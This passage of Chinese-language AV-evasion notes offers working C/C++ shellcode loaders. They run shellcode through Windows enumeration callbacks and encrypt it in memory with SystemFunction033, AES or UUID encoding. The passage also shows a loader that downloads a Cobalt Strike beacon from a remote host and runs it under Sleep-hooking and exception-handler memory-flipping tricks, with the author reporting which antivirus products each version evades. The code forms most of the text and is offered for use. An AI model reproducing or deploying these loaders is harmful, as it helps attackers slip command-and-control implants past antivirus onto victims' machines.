| SetupDiRegisterDeviceInfo | SymEnumLines | SymEnumLinesW |
| SymEnumProcesses | SymEnumSourceLines | SymEnumSourceLinesW |
| SymEnumSymbols | SymEnumSymbolsForAddr | SymEnumSymbolsForAddrW |
| SymEnumSymbolsW | SymEnumTypes | SymEnumTypesByName |
| SymEnumTypesByNameW | SymEnumTypesW | SymEnumerateModules |
| SymEnumerateModules64 | SymEnumerateSymbols | SymEnumerateSymbols64 |
| SymEnumerateSymbolsW | SymSearch | SymSearchW |
| TranslateBitmapBits | WPUQueryBlockingCallback | WdsCliTransferFile |
| WdsCliTransferImage | WinBioCaptureSampleWithCallback | WinBioEnrollCaptureWithCallback |
| WinBioIdentifyWithCallback | WinBioLocateSensorWithCallback | WinBioRegisterEventMonitor |
| WinBioVerifyWithCallback | WlanRegisterNotification | WriteEncryptedFileRaw |
| WsPullBytes | WsPushBytes | WsReadEnvelopeStart |
| WsRegisterOperationForCancel | WsWriteEnvelopeStart | mciSetYieldProc |
| midiInOpen | midiOutOpen | mixerOpen |
| mmioInstallIOProcA | mmioInstallIOProcW | waveInOpen |
| waveOutOpen |  |  |


### 2x2x0 回调函数执行加载器
#### EnumFontsW
这段代码的关键在于它使用`EnumFontsW` 函数的回调机制来执行 shellcode。当 `EnumFontsW` 函数遍历到一个字体时，它将调用 shellcode 作为回调函数来处理字体信息。由于回调函数直接指向 shellcode，这样可以间接地加载并执行 shellcode

```plain
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));

    /*
    * EnumFontsW是Windows API，用于枚举系统中所有可用字体
    * 参数1：设备环境句柄，表示要枚举哪个设备的字体
    * 参数2：NULL表示枚举所有字体
    * 参数3：回调函数指针，用于处理每个枚举到的字体信息
    * 参数4：回调函数参数
    */
    EnumFontsW(GetDC(NULL), NULL, (FONTENUMPROCW)p, NULL); //回调函数

}

int main() {
    CallBack();
}
```

#### EnumUILanguages
`EnumUILanguages`函数是一个Windows API函数，用于枚举系统支持的用户界面（UI）语言。这个函数可以让应用程序查询系统支持的所有UI语言，这对于开发多语言支持的应用程序特别有用。它遵循特定的回调函数模式，意味着你需要提供一个回调函数，`EnumUILanguages`会为系统中每一种可用的UI语言调用这个回调函数一次  
其函数原型如下所示：

```plain
BOOL EnumUILanguagesW(
  UILANGUAGE_ENUMPROCW lpUILanguageEnumProc,  // 指向回调函数的指针
  DWORD                 dwFlags,  // 指定枚举语言的行为
  LONG_PTR              lParam  // 提供一个应用程序定义的值，该值随着每次回调函数调用被传递
);
```

shellcode加载代码如下所示：

```plain
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));

    EnumUILanguages((UILANGUAGE_ENUMPROC)p, 0, 0);

}

int main() {
    CallBack();
}
```

#### EnumFontFamiliesEx
```plain
#include <Windows.h>
/*
 * https://osandamalith.com - @OsandaMalith
 */
  int main() {
  int shellcode[] = {
  };
  DWORD oldProtect = 0;
  BOOL ret = VirtualProtect((LPVOID)shellcode, sizeof shellcode, PAGE_EXECUTE_READWRITE, &oldProtect);

  EnumFontFamiliesEx(GetDC(0), 0, (FONTENUMPROC)(char*)shellcode, 0, 0);
}
```

## 2x3 bin文件替换
### 2x3x0 cs敏感api哈希
API hash是恶意软件经常使用的一种技术，用于掩饰可疑API的使用。Cobalt strikel的哈希算法是`ROR13`  
我们可以使用已知的API哈希列表来正确识别payload类型，并可以使用这些已知的API哈希通过Yara规则进行更准确的检测。  
Huntress 博客中详细介绍的哈希替换脚本和 yara 规则： [https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection)  
敏感api哈希替换工具：  
[https://github.com/embee-research/Randomise-api-hashes-cobalt-strike](https://github.com/embee-research/Randomise-api-hashes-cobalt-strike)

### 2x3x1 硬编码手动替换
比如在生成的cs的bin文件开头第一个硬编码为fc是一个特征，我们只要在最前面加个0x90即可修改这个特征，虽然这不足以绕过静态检测但是是一个思路，可以多改其他地方  
方法一：  
生成c语言的二进制文件，里面是一个数组变量，我们直接更改增加硬编码后保存为文件也可以



方法二：  
linux命令：`xxd -i payload.bin > payloads.c`转为数组后也是一样修改复制去上面的代码保存为另外一个bin文件

## 3.动态内存行为绕过
## 3x0 内存中的加解密
### 3x0x0 SystemFunction032
`SystemFunction032`：一个系统函数，可以做到在内存中加解密,调用也很方便  
或者沿着这个思路我们可以找找其他在内存中加解密的方法

#### 加密代码：
```plain
#include <windows.h>
#include <stdio.h>

typedef NTSTATUS(WINAPI* _SystemFunction033)(
    struct ustring *memoryRegion,
    struct ustring *keyPointer);

struct ustring {
    DWORD Length;
    DWORD MaximumLength;
    PUCHAR Buffer;
} scdata, key;

int main() {
    _SystemFunction033 SystemFunction033 = (_SystemFunction033)GetProcAddress(LoadLibrary(L"advapi32"), "SystemFunction033");

    char str_key[] = "helloWorld";

    unsigned char shellcode[] = {};
    key.Buffer = (PUCHAR)(&str_key);
    key.Length = sizeof key;

    scdata.Buffer = (PUCHAR)shellcode;
    scdata.Length = sizeof shellcode;
    SystemFunction033(&scdata, &key);
    printf("unsigned char shellcode[] = { ");
    for (size_t i = 0; i < scdata.Length; i++) {
        if (!(i % 16)) printf("\n    ");
        printf("0x%02x, ", scdata.Buffer[i]);
        if(i == scdata.Length-1) printf("0x%02x };", scdata.Buffer[i]);
    }

}
```

#### 解密代码：
```plain
#include <windows.h>
#include <stdio.h>

typedef NTSTATUS(WINAPI* _SystemFunction033)(
    struct ustring *memoryRegion,
    struct ustring *keyPointer);

struct ustring {
    DWORD Length;
    DWORD MaximumLength;
    PUCHAR Buffer;
} scdata, key;

int main() {
    _SystemFunction033 SystemFunction033 = (_SystemFunction033)GetProcAddress(LoadLibrary(L"advapi32"), "SystemFunction033");

    char str_key[] = "helloWorld";

    unsigned char shellcode[] = {};
    key.Buffer = (PUCHAR)(&str_key);
    key.Length = sizeof key;

    scdata.Buffer = (PUCHAR)shellcode;
    scdata.Length = sizeof shellcode;
    SystemFunction033(&scdata, &key);
    printf("unsigned char shellcode[] = { ");
    for (size_t i = 0; i < scdata.Length; i++) {
        if (!(i % 16)) printf("\n    ");
        printf("0x%02x, ", scdata.Buffer[i]);
        if(i == scdata.Length-1) printf("0x%02x };", scdata.Buffer[i]);
    }

}
```

#### 综合利用代码：
```plain
//上面的函数都是上面ase和异常处理的
typedef NTSTATUS(WINAPI* _SystemFunction033)(
    struct ustring* memoryRegion,
    struct ustring* keyPointer);

struct ustring {
    DWORD Length;
    DWORD MaximumLength;
    PUCHAR Buffer;
} scdata, key;

int main(int argc, char** argv) {
   // const unsigned char* key1 = ;
    // Validate the parameters
   /* if (argc != 4) {
        printf("[+] Usage: %s <RemoteIP> <RemotePort> <Resource>\n", argv[0]);
        return 1;
    }*/

    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5003";
    char* Resource = "beaase.bin";

    hEvent = CreateEvent(NULL, TRUE, false, NULL);

    PVOID temp = AddVectoredExceptionHandler(1, &FirstVectExcepHandler);
    if (temp == NULL)
    {
        printf("AddVectoredExceptionHandler调用失败");
        getchar();
        return 0;
    }
    Hook();
    HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);
    CloseHandle(hThread1);

    //getShellcode_Run(argv[1], argv[2], argv[3]);
   int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);


   //aes解密

   AES aes(AESKeyLength::AES_128); 
   unsigned char key1[] = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };

   unsigned char* a = aes.DecryptECB((const unsigned char*)recvbuf_ptr, (unsigned int)recvbuf_size, key1);

   //xor解密
   /*int xorkey = 5 + 5;
   XORcrypt(a, recvbuf_size,xorkey);*/

   shellcode_addr = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT, PAGE_READWRITE);
   memcpy(shellcode_addr, a, recvbuf_size);
   //sys内存解密
   _SystemFunction033 SystemFunction033 = (_SystemFunction033)GetProcAddress(LoadLibrary("advapi32"), "SystemFunction033");
   char str_key[] = "132abc";
   key.Buffer = (PUCHAR)(&str_key);
   key.Length = sizeof(str_key);
   scdata.Buffer = (PUCHAR)shellcode_addr;
   scdata.Length = recvbuf_size;
   SystemFunction033(&scdata, &key);

   VirtualProtect(shellcode_addr, recvbuf_size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);

   ((void(*)())shellcode_addr)();


    return 0;

}
```

### 3x0x1 UUID内存加解密
参考文章：[https://www.crisprx.top/archives/120](https://www.crisprx.top/archives/120)  
他们是把uuid写在shellcode加载器上面的，我给他改了一下，写成远程加载再加上uuid，再加上syscall，这里的uuid和上面的还有些不一样，是在内存中加解密。  
原理性问题参考上面文字地址。

#### 效果：
火绒动静态都免；defender静态免动态被杀；360动静态都被杀





#### 实现代码
uuid.bin文件需要自己修改，先用工具给shellcode加密，[https://github.com/Haunted-Banshee/Shellcode-Hastur/](https://github.com/Haunted-Banshee/Shellcode-Hastur/)



复制到一个txt文件后，使用自带的替换功能，把前面的空格，双引号逗号都替换成空  


替换后为这样子



把文件后缀改成bin，用010等十六进制编辑器打开  


这里的0D0A都是换行符，但是我们在代码里面遍历uuid每一行的时候需要有个结束符\0，所以我们给替换成0000，至此我们的uuid.bin就可以了

```plain
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include "jumper.h"

#include <Rpc.h>

#pragma comment(lib, "Rpcrt4.lib")

#pragma comment(lib, "ntdll")
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")


#define NtCurrentProcess()     ((HANDLE)-1)
#define DEFAULT_BUFLEN 4096

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

LPVOID shellcode_addr;


DWORD getShellcode_Run(char* host, char* port, char* resource, OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        //printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        //printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            //printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
       // printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        // printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        //printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    // printf("\n[+] Sent %ld Bytes\n", iResult);

     // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        //printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr, 0, 400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            //printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            //printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0) {
            break;
            //printf("[+] Connection closed\n");
        }

        else
        {
            return 1;
            //printf("recv failed with error: %d\n", WSAGetLastError());
        }


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}

int main()
{
    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5002";
    char* Resource = "uuid.bin";

    int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);

    HANDLE hProc = GetCurrentProcess();
    LPVOID base_addr = NULL;
    LPVOID uuid_addr = NULL;
    HANDLE thandle = NULL;
    NTSTATUS NTAVM = Sw3NtAllocateVirtualMemory(
        hProc,
        &base_addr,
        0,
        (PSIZE_T)&recvbuf_size,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE);
    //LPVOID lpAddress = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT, PAGE_READWRITE);
    DWORD_PTR mem_ptr = (DWORD_PTR)base_addr;

    NTSTATUS NTAVM1 = Sw3NtAllocateVirtualMemory(
        hProc,
        &uuid_addr,
        0,
        (PSIZE_T)&recvbuf_size,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE);
    //memcpy(base_addr, recvbuf_ptr, recvbuf_size);
    Sw3NtWriteVirtualMemory(hProc, uuid_addr, recvbuf_ptr, recvbuf_size, NULL);

    // 循环遍历uuid列表 使用UuidFromStringA将字符串UUID转换为二进制UUID并加载到内存中
    for (int count = 0; count <= (recvbuf_size / 0x26 - 0x1); count++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuid_addr, (UUID*)mem_ptr);
        if (status != RPC_S_OK) {
            break;
        }
        uuid_addr =(void*)((uintptr_t)uuid_addr + 0x26);
        mem_ptr += 16;//uuid 16字节大小
    }


    DWORD oldProtect;
    //VirtualProtect(base_addr, recvbuf_size, PAGE_EXECUTE, &oldProtect);
    Sw3NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&recvbuf_size, PAGE_EXECUTE, &oldProtect);

    EnumSystemLocalesA((LOCALE_ENUMPROCA)base_addr, 0);

}
```

注：

+ `DWORD_PTR mem_ptr = (DWORD_PTR)base_addr;`这句代码的作用是为了保存shellcode内存首地址，用mem_ptr去遍历，遍历到最后mem_ptr的地址会是shellcode的尾地址，但是我们调用shellcode就直接调用base_addr即可

## 3x1 远程分段加载shellcode+windows异常处理
windows异常处理机制利用原理的文章：[https://forum.butian.net/share/783](https://forum.butian.net/share/783)

#### 异常处理的个人简单理解：
我们在上线cs后，cs是默认设置了60秒睡眠的，也就是心跳包机制，这10秒内我们的代码将会被sleep阻塞，60秒后执行命令再次进入睡眠；而我们的代码则可以去sleep函数进行hook，在cs上线后在sleep的时间内把内存改为rw属性，这时候这段时间则可以逃过杀软的内存扫描，（因为一般杀软对rwx属性的可执行权限的内存扫描的比较严格）。但是我们rw属性的内存是没办法执行shellcode的，这就有了下面的windows异常处理的机制，通过AddVectoredExceptionHandler函数去添加一个异常处理函数 ，当代码走到sleep后rw属性的内存时，shellcode没执行权限所以报错0x0005,我们就可以通过异常处理函数 把内存改为可执行，执行完之后继续执行我们的hooksleep修改rw属性，如此反复

#### 代码执行顺序逻辑：
主要是通过window的事件hEvent在触发。

+ 在main函数创建了一个初始是无信号的事件hEvent；
+ 还有一个线程Beacon_set_Memory_attributes负责一直循环接收信号，一收到信号就把属性改为rw并继续把设为无信号，等待信号；
+ hook sleep，我们的sleep函数负责触发事件hEvent后就进入睡眠，sleep是cs自动调用的，可以在cs里面设置sleep时间
+ 总结：cs上线后调用sleep函数触发事件hEvent，修改内存为rw属性并睡眠，睡眠完执行shellcode发现内存异常，触发我们添加的异常函数把内存修改为rwx，执行完命令后cs继续sleep，sleep60秒内又触发事件hEvent，内存又变成rw，这样循环

### 调试版代码
```plain
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include <iostream>
#include "detours.h"
#include "detver.h"

#pragma comment(lib, "ntdll")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")


#define NtCurrentProcess()     ((HANDLE)-1)
#define DEFAULT_BUFLEN 4096

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

LPVOID shellcode_addr;

LPVOID Beacon_address;
SIZE_T Beacon_data_len;
DWORD Beacon_Memory_address_flOldProtect;
HANDLE hEvent;


BOOL Vir_FLAG = TRUE;


static LPVOID(WINAPI* OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;
LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {
    Beacon_data_len = dwSize;
    Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);
    printf("分配大小:%d", Beacon_data_len);
    printf("分配地址:%llx \n", Beacon_address);
    return Beacon_address;
}

static VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;
void WINAPI NewSleep(DWORD dwMilliseconds)
{
    if (Vir_FLAG)
    {
        VirtualFree(shellcode_addr, 0, MEM_RELEASE);
        Vir_FLAG = false;
    }
    printf("sleep时间:%d\n", dwMilliseconds);
    SetEvent(hEvent);
    OldSleep(dwMilliseconds);
}

void Hook()
{
    DetourRestoreAfterWith(); //避免重复HOOK
    DetourTransactionBegin(); // 开始HOOK
    DetourUpdateThread(GetCurrentThread());
    DetourAttach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
    DetourAttach((PVOID*)&OldSleep, NewSleep);
    DetourTransactionCommit(); //  提交HOOK
}

void UnHook()
{
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
    DetourTransactionCommit();
}

size_t GetSize(char* szFilePath)
{
    size_t size;
    FILE* f = fopen(szFilePath, "rb");
    fseek(f, 0, SEEK_END);
    size = ftell(f);
    rewind(f);
    fclose(f);
    return size;
}

unsigned char* ReadBinaryFile(char* szFilePath, size_t* size)
{
    unsigned char* p = NULL;
    FILE* f = NULL;
    size_t res = 0;
    *size = GetSize(szFilePath);
    if (*size == 0) return NULL;
    f = fopen(szFilePath, "rb");
    if (f == NULL)
    {
        printf("Binary file does not exists!\n");
        return 0;
    }
    p = new unsigned char[*size];
    // Read file
    rewind(f);
    res = fread(p, sizeof(unsigned char), *size, f);
    fclose(f);
    if (res == 0)
    {
        delete[] p;
        return NULL;
    }
    return p;
}

BOOL is_Exception(DWORD64 Exception_addr)
{
    if (Exception_addr < ((DWORD64)Beacon_address + Beacon_data_len) && Exception_addr >(DWORD64)Beacon_address)
    {
        printf("地址符合:%llx\n", Exception_addr);
        return true;
    }
    printf("地址不符合:%llx\n", Exception_addr);
    return false;
}

LONG NTAPI FirstVectExcepHandler(PEXCEPTION_POINTERS pExcepInfo)
{
    printf("FirstVectExcepHandler\n");
    printf("异常错误码:%x\n", pExcepInfo->ExceptionRecord->ExceptionCode);
    printf("线程地址:%llx\n", pExcepInfo->ContextRecord->Rip);
    if (pExcepInfo->ExceptionRecord->ExceptionCode == 0xc0000005 && is_Exception(pExcepInfo->ContextRecord->Rip))
    {
        printf("恢复Beacon内存属性\n");
        VirtualProtect(Beacon_address, Beacon_data_len, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

DWORD WINAPI Beacon_set_Memory_attributes(LPVOID lpParameter)
//这段代码的目的是等待事件 hEvent 被触发，然后修改 Beacon_address 指向的内存区域的保护属性，使其变为可写
{
    printf("Beacon_set_Memory_attributes启动\n");
    while (true)
    {
        WaitForSingleObject(hEvent, INFINITE);
        printf("设置Beacon内存属性不可执行\n");
        VirtualProtect(Beacon_address, Beacon_data_len, PAGE_READWRITE, &Beacon_Memory_address_flOldProtect);
        ResetEvent(hEvent);
    }
    return 0;
}


DWORD getShellcode_Run(char* host, char* port, char* resource,OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    //BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr,0,400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}


int main(int argc, char** argv) {

    // Validate the parameters
   /* if (argc != 4) {
        printf("[+] Usage: %s <RemoteIP> <RemotePort> <Resource>\n", argv[0]);
        return 1;
    }*/

    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5003";
    char* Resource = "beacon64.bin";

    hEvent = CreateEvent(NULL, TRUE, false, NULL);

    PVOID temp = AddVectoredExceptionHandler(1, &FirstVectExcepHandler);
    if (temp == NULL)
    {
        printf("AddVectoredExceptionHandler调用失败");
        getchar();
        return 0;
    }
    Hook();
    HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);
    CloseHandle(hThread1);

    //getShellcode_Run(argv[1], argv[2], argv[3]);
   int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);

   shellcode_addr = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT, PAGE_READWRITE);
   memcpy(shellcode_addr, recvbuf_ptr, recvbuf_size);
   VirtualProtect(shellcode_addr, recvbuf_size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);

   ((void(*)())shellcode_addr)();


    return 0;

}
```

火绒动静态免杀，defender静态免杀，360动静态免杀









## 3x2 内存权限的波动修改(shellcodefluctuation)
### 前言
无意间看到一个思路[https://github.com/mgeeky/ShellcodeFluctuation](https://github.com/mgeeky/ShellcodeFluctuation)，而后找到麦当师傅的博客[https://maidang.cool/2022/26991.html#Stager](https://maidang.cool/2022/26991.html#Stager)，这里结合自己个人的理解记一篇笔记

### 整体思路理解
内存查杀时杀软一直会扫描进程中的危险区域，如rx，rwx等有执行属性的内存区域，而我们cs上线后会自动sleep，也就是心跳包机制（和前面的异常处理相似，其实个人感觉这两种思路的本质是一样的，都是让内存权限在可执行和不可执行之间反复横跳）。shellcodefluctuation利用核心思路的就是去hooksleep函数，这里我们先看到hook后sleep的代码

```plain
void HookSleep()
{
    DetourRestoreAfterWith();
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourAttach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
// 脱钩
void UnHookSleep()
{
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
VOID WINAPI MySleep(DWORD dwMilliseconds)
{
    UnHookSleep();

    if (!memoryInfo.isScanMemory)
        ScanMemoryMap();

    printf("XOR32 key: %X\n", memoryInfo.key);
    EncryptDecrypt();

    printf("===> MySleep(%d)\n\n", dwMilliseconds);
    Sleep(dwMilliseconds);

    EncryptDecrypt();
    HookSleep();
}
```

+ 先脱钩`UnHookSleep();`，为了让后面的`Sleep(dwMilliseconds);`执行睡眠；
+ `ScanMemoryMap();`为了定位本进程内rwx属性的内存位置，也就是我们beacon的内存位置
+ `EncryptDecrypt();`先把这块beacon的内存区域加密并且修改为rw，可以使用任何加密
+ `Sleep(dwMilliseconds);`接着加密后beacon内存进入sleep，这时候便可以躲避内存扫描
+ `EncryptDecrypt();`在sleep结束后解密并且把执行权限修改为rwx，并执行我们的cs操作
+ `HookSleep();`最后把sleephook回去，在cs执行完命令后再次sleep又会重复以上循环

总结：所以这里还是利用cs的sleep机制，通过hooksleep执行加密修改内存属性等操作，也是因为cs会反复调用sleep，所以我们可以反复翻转beacon内存属性

### 各个函数理解
#### ScanMemoryMap函数
+ 定义好接收内存信息的两个结构体
+ `OpenProcess`打开进程后`VirtualQueryEx`检索指定进程的虚拟地址空间中的页范围的信息并存储在msi结构体里
+ 检索到的mbi结构体信息的BaseAddress和size都赋值到我们定义的结构体里面可供后面函数使用
+ 最后索引值自增，并且索引值大于3即跳出循环，因为在本进程里应该最多只有三块可执行的内存页

这里借用麦当师傅的一张图，下图是stager分阶段的执行过程，可以看到申请了三块内存，stagerless不需要额外下载加密的payload，直接加载payload，所以则是两块内存

#### stage 流程
1. 申请一个块儿内存（allocate memory）
2. 复制Stager去这一块儿内存里
3. 创建一个线程，运行这个Stager
4. 这个Stager会再次申请一块儿内存（allocate memory）
5. Stager去下载加密的payload，写入申请的内存中
6. Stager把执行流程转递给这个加密的payload
7. 加密的payload自解密成Reflective DLL
8. 然后把执行流程传递给Reflective DLL
9. Reflective DLL 申请一个块儿内存（allocate memory）
10. 然后初始化自己在新的内存里面
11. 最后reflective DLL 调用payload的入口点函数



```plain
// 定义内存页属性结构体
typedef struct {
    LPVOID address;     // 内存地址
    DWORD size;         // 内存大小
}MemoryAttrib;

// 定义内存信息结构体
typedef struct {
    MemoryAttrib memoryPage[3]; // 最多存储3个内存页属性
    int index;                  // 内存下标
    int key;                    // 加解密key
